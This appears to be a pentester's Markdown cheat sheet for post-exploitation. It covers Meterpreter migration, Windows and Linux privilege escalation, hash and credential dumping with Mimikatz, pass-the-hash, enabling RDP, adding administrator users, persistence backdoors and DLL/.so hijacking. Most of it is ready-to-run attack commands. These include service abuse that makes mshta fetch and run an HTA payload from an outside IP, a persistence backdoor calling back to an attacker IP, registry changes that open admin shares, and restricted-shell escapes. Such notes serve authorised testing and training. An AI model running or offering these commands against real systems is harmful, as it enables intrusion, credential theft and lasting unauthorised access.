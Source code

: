 # Stable (Stabilize session)
## MSF Migrate
* `migrate` to a process that has higher chances of not being killed (e.g. from browser processes to system processes)
* `run <double_tabs>` - select meterpreter scripts

# Privileged (PrivEsc sessions)
## Windows Privilege Escalation
#### Metasploit
* `meterpreter> getsystem` - doesn't work when UAC is enabled and user is not admin
* `meterpreter> use incognito` - use commands from this module (e.g. `list_tokens`)
  * if `impersonate_token` doesn't work, migrate to a different process first (e.g. _w3wp_)
* `run post/multi/recon/local_exploit_suggester`
</br>__UAC__</br>
* `meterpreter> run post/windows/gather/win_privs` - check UAC enabled
* `msf> search bypassuac` - `use` module, `set` configs and `exploit`
  * `meterpreter> getsystem` - will work if user on the new session is admin (with UAC enabled also)
* manual - https://github.com/hfiref0x/UACME

#### Tools
PowerUp - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1</br>
* `. ./PowerUp.ps1`
* `Invoke-CheckAll`
* when running functuions from PowerUp remember to check commands of exploits
  * `Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"`
  * `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`

WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS</br>

#### General
* unquoted service paths
  * `wmic service get name,displayname,pathname,startmode | findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` - find unquoted services
  * `msf> use exploit/windows/local/unquoted_service_path` - module for exploiting unquoted path vulnerable instances
* abuse services
  * _AppReadiness_
    * add users to Administrators group - `sc config AppReadiness binPath= "cmd /c net localgroup Administrators <current-user> /add`
    * get system using Microsoft HTA (with powershell and PowerUp.ps1) - `Invoke-ServiceAbuse -Name AppReadiness  -Command "mshta.exe http://10.10.15.3:8080/ljUAsN.hta"`
 

## Linux Privilege Escalation
* SUDO - https://gtfobins.github.io/
* SUID - https://gtfobins.github.io/#+suid

#### General
* Replace executable
* crontab
* root squashing
* `man -P "id" man`
* docker sudo exploit
* escape from restricted shells - `rbash`
   * use _shell escapers_
   * `find /home/bob -name test -exec /bin/sh \;` - ! shell will execute only if the file exists: _-name **test**_
   * `python -c 'import pty;pty.spawn("/bin/sh")'`
   * `perl -e 'exec "/bin/sh"'`
   * `ssh <restricted_user>@server -t "/bin/sh"`
* Hijacking **.so** libraries
  * exploittion works the same way as DLL in windows 
#### Metasploit
* msf> `use exploit/linux/local/glibc_origin_expansion_priv_esc` - glibc vulnerability

# Persistent (maintaining access)
## Hashes
* `meterpreter> run hashdump` - if it crashes (elevate privileges or migrate to another process)
* `meterpreter> run post/windows/gather/smart_hashdump`
* pass-the-hash -> `use exploit/windows/smb/psexec` - works with administrator account (possible issues with users in Admin group, but not Administrator)
  * if no access to admin shares (Access_Denied in msf for psexec) - `meterpreter> reg setval -k 'HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1` and rerun psexec
* pass-the-hash over RDP -> `xfreerdp /u:<user> /d:<domain> /pth:<token> /v:<target>`

#### Mimikatz
* `sysinfo` - check on which processes meterpreter runs. It needs to be x64 for Mimikatz
* `ps -A x86_64 -s` list SYSTEM processes on x64 architecture
* msf> `migrate <PID>` - migrate to a x64 processes
* meterpreter> `load mimikatz`

#### MimiPenguin - Linux
* `./mimipenguin.sh` or `./mimipenguin.py`

## Enable RDP service
* `net start` - check enabled services
* `wmic service where 'Caption like "Remote%" and started=true' get Caption` - check enabled remote services
* `meterpreter> <service_manager/enum_services>`
* `meterpreter> run getui -e << -u <new_username> -p <new_password>>>` - enable RDP
* `net localgroup "<RDP-Group-With-Allow-Perm>" <user> /add` - add user to the group allowed to RDP connections

## Backdoor
* `run persistence -A -X -i 5 -p <port> -r <attacker_IP>` - works only on Windows
* start `exploit/multi/handler` with the above configs (port/IP/payload)

## New Users
* `net user <username> <passowrd> /add` - adds new user
* `net localgroup "<group_name>" <username> /add` - adds existing user to a specific group that allows external connections (RDP, telnet, ssh etc.)

## DLL Hijacking (Windows)
* abuses the __DLL Search Order__
1. Directory from where the app is running
2. C:\Windows\System32 directory
3. C:\Windows\System directory
4. C:\Windows directory
5. Current directory at the time of execution
6. Any directory specified in %PATH%
* search privileges on destination folder
  * `get-acl 'c:\users\administrator\desktop\dvta\bin\release' | format-list` - check if current user has write permissions on destination folder

## .so Hijacking (Linux)
* abuses the __.so Search Order__
1. any directory specified by `-rpath-link` option (RPATH)
2. any directories specified by `-rpath` options (RPATH)
3. content of environmental variables: `LD_RUN_PATH` and `LD_LIBRARY_PATH`
4. directories specified in environemntal variables: `DT_RUNPATH` and `DT_RPATH`
5. `/lib` and `/usr/lib`
6. any directory specified in `/etc/ld.so.conf`

## Cool Resources
* https://wiki.zacheller.dev/pentest/post-exploitation/maintaining-access
* https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
* https://csbygb.gitbook.io/pentips/windows/privesc
